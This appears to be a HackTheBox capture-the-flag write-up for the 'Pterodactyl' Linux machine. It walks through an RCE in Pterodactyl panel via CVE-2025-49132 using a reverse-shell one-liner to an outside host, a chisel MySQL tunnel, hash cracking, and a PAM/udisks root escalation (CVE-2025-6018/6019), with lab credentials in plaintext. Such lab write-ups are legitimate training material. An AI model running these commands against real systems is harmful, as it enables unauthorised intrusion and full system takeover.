{HackTheBox_Machine_WriteUp}

---

| Machine Name | Pterodactyl  |
| ------------ | ------------ |
| OS           | LINUX        |
| Difficulty   | Medium       |
| IP Address   | 10.129.9.108 |
| Release Date | 7 FEB 2026   |
| Pwned Date   | 13 FEB 2026  |

---

#### Table of Contents 

##### 1. Executive Summary
##### 2. Reconnaissance
   ###### 2.1  Port Scanning
   ###### 2.2  Service Enumeration
   ###### 2.3  Web Enumeration  
##### 3. Initial Access 
##### 4. Lateral Movement 
###### 5. Privilege Escalation
###### 6. Post-Exploitation 
##### 7. Proof's
###### 8. References


---

#### 1. Executive Summary

This report documents the penetration testing process of the "Pterodactyl" machine from Hack The Box.The objective was to identify vulnerabilities and exploit them to achieve full system compromise (user + root). 

We have founded CVE-2025-49132 on sub-domain 'panel'.Github hash the easy poc hosted,in this writeup we are using that script for getting shell on server.CVE-2025-6018 & CVE-2025-6019 are the way to get root shell on server.

I have demonstrated the full attack chain below,

---

#### 2. Reconnaissance

##### 2.1. Port Scanning

```
sudo nmap -sC -sV -p- 10.129.9.108 --min-rate 3000 -oN nmap_scan
```

Finding's :
Open Port's :- 22 & 80
Domain Name :- pterodactyl.htb
###### 2.2 Web Enumeration

```
ffuf -u http://pterodactyl.htb/ -H "HOST: FUZZ.pterodactyl.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fs 145

```

Finding :
Sub-Domain : panel

##### 2.3 Service Enumeration

http://panel.pterodactyl.htb is running application called Pterodactyl which has version 1.11.10.
When i searched for cve for this specific version i got to know that this version is vulnerable to CVE-2025-49132. 

So, i have researched about that vulnerability.This vulnerability gives us ability to get rce on server using pearcmd used by the application Pterodactyl it self and in phpinfo.php file which we got in the fuzzing section it is mentioned that pearcmd is running on server.So for further access to server we have two options.One is available on exploit-db and another is on github which is a simple poc which will gives us the direct shell on server.For this write-up we are using that poc which i have listed in reference section.


---

#### 3. Initial Access

Using the CVE-2025-49132 POC.

```
python3 exploit.py http://panel.pterodactyl.htb --rce-cmd "bash -c 'bash -i >& /dev/tcp/10.10.15.139/4444 0>&1'" --pear-dir /usr/share/php/PEAR


rlwrap nc -lnvp 4444
```

We will get shell as www-data.

---

#### 4. Lateral Movement

I have checked the Pterodactyl github page it reveal's that it stores the database.php in /var/www/config/ file. Checking that files reveals the username and database name for mysql and also password stored in env /DB_PASSWD. For getting password i haved check .env file and got that password for it.

Finding :
**pterodactyl:PteraPanel** 

I have used a chisel to port forwarding so i can enumerate database on my machine.
```
#### on our kali
./chisel server -p 8000 --reverse

#### on server
chisel client <YOUR_IP>:8000 R:3306:127.0.0.1:3306

#### Mysql Connect
mysql -u pterodactyl -h 127.0.0.1 -pPteraPanel

```

After Connecting to mysql database we will get bcrypt hash.

Cracking that hash :
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash 
```

Finding :
User : phileasfogg3
Password : !QAZ2wsx

Using this cred's now we can ssh into user and get our user flag.


**User Flag Caught !**

---

#### 5. Privilege Escalation

When trying to get root access on server linpeas.sh give's us information about server that we are on opensuse 15 PAM version.I have done some research and foound two CVE's which will help us to get root on server.I have linked that finding in reference section.Below are the step's to get into root.

```
### First Step

gdbus call --system --dest org.freedesktop.login1 --object-path /org/freedesktop/login1 --method org.freedesktop.login1.Manager.CanReboot
('challenge',)

### Second Step
{ echo 'XDG_SEAT OVERRIDE=seat0'; echo 'XDG_VTNR OVERRIDE=1'; } > .pam_environment

### Third step 
exit

ssh again

### Fourth Step

#### checking for 'yes'
gdbus call --system --dest org.freedesktop.login1 --object-path /org/freedesktop/login1 --method org.freedesktop.login1.Manager.CanReboot  

```

```
### creating and image

dd if=/dev/zero of=./xfs.image bs=1M count=300
mkfs.xfs ./xfs.image
mkdir ./xfs.mount
mount -t xfs ./xfs.image ./xfs.mount
cp /bin/bash ./xfs.mount
chmod 04555 ./xfs.mount/bash
umount ./xfs.mount

```

```
### root access

udisksctl loop-setup --file ./xfs.image --no-user-interaction

while true; do /tmp/blockdev*/bash -c 'sleep 10; ls -l /tmp/blockdev*/bash' && break; done 2>/dev/null &

gdbus call --system --dest org.freedesktop.UDisks2 --object-path /org/freedesktop/UDisks2/block_devices/loop1 --method org.freedesktop.UDisks2.Filesystem.Resize 0 '{}'

mount

/tmp/blockdev*/bash -p
 
```


**Root Access Granted !**

---

#### 6. Proof's






























---

#### 8. References

https://www.exploit-db.com/exploits/52341
https://github.com/0xtensho/CVE-2025-49132-poc
https://cdn2.qualys.com/2025/06/17/suse15-pam-udisks-lpe.txt
https://github.com/pterodactyl/panel

---

{HackTheBox_Machine_WriteUp}